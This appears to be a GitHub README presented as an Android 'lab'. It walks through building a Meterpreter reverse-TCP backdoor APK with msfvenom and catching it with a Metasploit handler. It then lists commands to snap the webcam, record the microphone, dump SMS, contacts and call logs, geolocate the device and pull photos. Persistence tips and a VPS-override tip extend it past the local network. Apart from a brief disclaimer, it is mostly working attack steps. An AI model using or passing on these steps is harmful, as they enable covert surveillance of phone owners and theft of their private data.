

# 🛡️ Metasploit Android Lab – Local Network C2 Simulation

> **DISCLAIMER:**  
> This lab is for educational purposes only on devices you own and control. Do not use this on other networks or systems without full permission.


# ⚙️ 1. Install Metasploit on Linux (Kali/Ubuntu)
### 🐙 Clone and Setup:
```bash
sudo apt update
sudo apt install -y git ruby ruby-dev libpq-dev libreadline-dev zlib1g-dev \
    libsqlite3-dev libxml2 libxml2-dev libxslt1-dev \
    libyaml-dev postgresql curl autoconf build-essential \
    libgmp-dev libpcap-dev libffi-dev
    
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework
gem install bundler
bundle install
```


## 📶 2. Get IP Address of Devices on Your Wi-Fi

### 🔍 Discover Local Devices:
```bash
ip a       # Get your IP (e.g. 192.168.1.104)
nmap -sn 192.168.1.0/24
```

Look for your phone's IP (e.g. 192.168.1.101) in the scan results.

### 🔁 Create Executables:

```bash 
sudo ln -s $(pwd)/msfvenom /usr/local/bin/msfvenom
sudo ln -s $(pwd)/msfconsole /usr/local/bin/msfconsole
```


🧪 3. Generate Android Payload (APK)
📦 Create the Payload:
```bash
./msfvenom -p android/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -o ~/backdoor.apk
```
Replace <YOUR_IP> with your local IP (e.g., 192.168.1.104)

Transfer Instructions:

Send backdoor.apk to your phone via:

USB transfer

Local HTTP server

QR code

⚠️ On the Phone:

Manually install the APK

Allow "Install Unknown Sources" when prompted


### 🛰️ 4. Set Up Listener in Metasploit
#### 🖥️ Start Metasploit Console:
```bash 
msfconsole or ./msfconsole
```

## 🧩 Configure Multi Handler:
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.104  # Your local IP
set LPORT 4444
exploit
```

## 📱 5. Interact with Compromised Android (Meterpreter)
When the app opens on the phone, you'll see:

text
[*] Meterpreter session 1 opened...

## 🛠️ Useful Commands:

```bash
# Basic System Interaction
shell                    # Open interactive shell
sysinfo                  # Get device information
getuid                   # Show current user context

# File System Operations
ls /sdcard/              # List files
download /path/to/file   # Download files to your machine
upload /local/file /remote/path  # Upload files to device

# Media Capture
webcam_list              # List available cameras
webcam_snap              # Take photo from default camera
webcam_snap 1            # Use back/front cam (if available)
webcam_stream            # Live video stream (if supported)
record_mic               # Record audio from microphone

# Data Extraction
dump_contacts            # Get contact list
dump_sms                 # Read SMS messages
dump_calllog             # Retrieve call logs
geolocate                # Get GPS coordinates (if permission allowed)

# Network Information
ifconfig                 # Show network interfaces
netstat                  # Display active connections

# Persistence
persist_helper           # Attempt to maintain access
```

## 🔄 6. Common Errors & Fixes

### 🚨 Session Issues
| Error Message | Possible Causes | Solutions |
|--------------|----------------|-----------|
| `No session opened` | - APK not executed<br>- Network isolation<br>- Incorrect payload | 1. Verify APK installation<br>2. Check same network segment<br>3. Reconfirm LHOST/LPORT |
| `Session died unexpectedly` | - App killed by OS<br>- Network dropout | 1. Use `set AutoRunScript migrate -f`<br>2. Try persistent payload |

### 📷 Media Capture Failures
| Error Code | Meaning | Workarounds |
|------------|--------|-------------|
| `Operation failed: 1` | Camera permission denied | 1. Use runtime permissions in APK<br>2. Try `webcam_snap -i 1` (front cam) |
| `Error 1002` | Mic access blocked | 1. Modify APK manifest<br>2. Use `record_mic -d 10` (shorter durations) |

### 🔒 Permission Problems
```bash
# Common Android 10+ restrictions:
- /sdcard/ access limited to app folder
- Background location disabled
- Automatic SMS/call log blocking
```

## 🛠️ Quick Fix Cheat Sheet
# When facing issues:
1. check app permissions in Android Settings
2. restart payload with: 
   set AutoRunScript post/android/manage/migrate
3. For connectivity:
   set ReverseListenerBindPort 443
   set OverrideLHOST your.vps.ip

## Features


- <code> webcam_list</code> to get access to Camera

- <code>ls /sdcard/DCIM/Camera</code> to access pics that took by camera


so here we have all of pics took by phone's Camera, so to download on of them use this command

<code>download /sdcard/DCIM/Camera/photo_name.jpg</code>
- for Example here 

<code>download /sdcard/DCIM/Camera/20221008_172338.jpg
</code>


<code>cd /sdcard/DCIM/path/</code> to change to another path 

to get the Address.

<code>geolocate</code>


## After the open session type help for seeing options that you can do 


## Usage Tips

```bash
# Get detailed help for any command
<command> -h 
# or
help <command>

# Example:
webcam_snap -h
```